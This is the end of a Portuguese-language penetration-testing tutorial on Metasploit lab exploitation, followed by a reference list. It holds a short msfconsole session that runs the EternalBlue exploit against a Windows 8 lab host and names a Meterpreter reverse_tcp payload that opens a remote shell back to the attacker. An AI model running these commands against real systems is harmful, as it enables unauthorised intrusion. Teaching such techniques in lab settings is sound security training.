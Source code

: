 Para mais informações leia:
* <https://www.rapid7.com/db/modules/exploit/multi/http/drupal_drupageddon/>

Para mais exemplos com o Metasploitable 3 Linux veja: <https://stuffwithaurum.com/2020/04/17/metasploitable-3-linux-an-exploitation-guide/>


### Explorando um *host* Windows 8 com o Metasploit 3:

Não abordaremos muito como explorar Windows aqui, mas segue um exemplo de como explorar o Windows 8, com o ``ms17_010_eternalblue``, esse é o famoso *exploit* [EternalBlue](https://pt.wikipedia.org/wiki/EternalBlue), criado pela NSA (Agencia Nacional de Segurança dos Estados Unidos), para explorar sistemas Windows, permitindo executar comandos em modo privilegiado. Desta falha, por exemplo deu-se origem ao *ransomware* [Wannacry](https://pt.wikipedia.org/wiki/WannaCry).


```console
# msfconsole
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.56.3
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 192.168.56.112
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
```
Neste caso foi utilizado o *payload* ``windows/x64/meterpreter/reverse_tcp``.

Para mais informações leia:
* <https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/>


# Referência

* HIMANSHU SHARMA. Kali Linux - An Ethical Hacker’s Cookbook : Over 120 Recipes to Perform Advanced Penetration Testing with Kali Linux. Birmingham, UK: Packt Publishing, 2017. ISBN 9781787121829. Disponível em: <https://search.ebscohost.com/login.aspx?direct=true&db=e000xww&AN=1617212&lang=pt-br&site=eds-live&scope=site>. Acesso em: 26 ago. 2022.

* KEVIN CARDWELL. Building Virtual Pentesting Labs for Advanced Penetration Testing - Second Edition. Birmingham: Packt Publishing, 2016. v. Second editionISBN 9781785883491. Disponível em: <https://search.ebscohost.com/login.aspx?direct=true&db=e000xww&AN=1344064&lang=pt-br&site=eds-live&scope=site>. Acesso em: 31 ago. 2022.

* SAGAR RAHALKAR. Metasploit for Beginners : An Easy to Digest Practical Guide to Metasploit Covering All Aspects of the Framework From Installation, Configuration, and Vulnerability Hunting to Advanced Client Side Attacks and Anti-forensics. Birmingham, UK: Packt Publishing, 2017. ISBN 9781788295970. Disponível em: https://search.ebscohost.com/login.aspx?direct=true&db=e000xww&AN=1560930&lang=pt-br&site=ehost-live. Acesso em: 9 set. 2022.

* BALAPURE, A. Learning Metasploit Exploitation and Development. Birmingham: Packt Publishing, 2013. ISBN 9781782163589. Disponível em: https://search.ebscohost.com/login.aspx?direct=true&db=e000xww&AN=619977&lang=pt-br&site=eds-live&scope=site. Acesso em: 14 set. 2022.

* <https://redcanary.com/threat-detection-report/techniques/credential-dumping/#:~:text=Credential%20dumping%20is%20the%20process,Movement%20and%20access%20restricted%20information.>

* <https://attack.mitre.org/techniques/T1003/>

* <https://docs.rapid7.com/metasploit/working-with-payloads/>

* <https://www.cobaltstrike.com/blog/staged-payloads-what-pen-testers-should-know/>

* <https://stuffwithaurum.com/2020/04/17/metasploitable-3-linux-an-exploitation-guide/>
